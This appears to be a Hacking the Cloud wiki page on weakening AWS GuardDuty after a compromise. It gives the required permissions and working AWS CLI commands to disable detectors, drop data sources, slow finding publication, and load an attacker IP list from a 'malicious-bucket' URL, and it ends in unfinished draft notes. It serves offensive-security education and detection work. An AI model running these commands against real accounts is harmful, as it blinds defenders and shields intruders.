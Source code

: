 ```yaml
---
author: Ben Leembruggen
title: Modify Security Services
description: Update key AWS logging and detection services to hamper response activities.
enableEditBtn: true
editBaseURL: https://github.com/Hacking-the-Cloud/hackingthe.cloud/blob/main/content
---
```


Where an account has been successfully compromised, an attacker can modify detection and logging services in an account to reduce the likelihood of their actions triggering an alert.  Whilst outright deleting services can trigger alerts from services like GuardDuty, modifying key attributes of these services is less likely to raise alerts and can render them close to useless depending on the scenario.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the AWS service architecture (using delegated admins or organisational services can limit your ability to make configuration changes in the tenant accounts) and the presence of higher level controls like Service Control Policies. 

## GuardDuty
### Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove sources of telemetry or lessen its effectiveness.

Configuration changes may include a combination of:
- Disabling the detector altogether.
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).
- Increasing the publishing frequency to 6 hours, as opposed to as low as 15 minutes.


#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:UpdateDetector

Example Commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 and kubernetes as log sources
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false},Kubernetes={AuditLogs={Enable=false}}

# Increase publishing time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

### Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

<i> DNS findings are exempt from the Trusted IP list </i>

#### Required Permissions to execute:
- guardduty:ListIPSet 
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

<i> Depending on the level of stealth required, s3 upload permissions to a bucket in the account may also be appropriate. </i>


Example Commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.text \
    --activate
```

## Cloudtrail


GuardDuty
- 

(Not available if in a managed account)

Config
- Recorders
- Aggregator
https://docs.aws.amazon.com/config/latest/developerguide/stop-start-recorder.html

CloudTrail
